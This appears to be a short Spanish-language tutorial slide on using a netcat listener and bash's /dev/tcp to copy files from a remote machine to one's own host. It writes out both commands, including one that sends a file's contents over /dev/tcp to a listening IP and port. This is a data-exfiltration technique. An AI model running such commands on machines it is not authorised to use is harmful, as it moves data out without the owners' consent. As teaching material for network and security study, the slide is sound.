

# Netcat 2 ° Enviar ficheros a travez /dev/tcp
Si queremos obtener ficheros de un equipo remoto en nuestra red, una forma de hacerlo es crear un servidor con netcat en nuestro equipo, ese servidor crea un archivo que esta a la escucha y recibe toda la información.

Luego desde el equipo remoto, mediante /dev/tcp/port, enviamos el fichero a nuestro servidor cabe aclarar que debemos hacer uso de una bash en el equipo remoto.

Primero creamos el servidor en nuestro equipo y el fichero que recibirá los datos ( ip : 192.168.1.50 ):
		 nc  -nlvp 400 > ficheroarecibir.txt

Luego enviamos el archivo en el equipo remoto:
		cat ficheroarecibir.txt > /dev/tcp/ 192.168.1.50 /400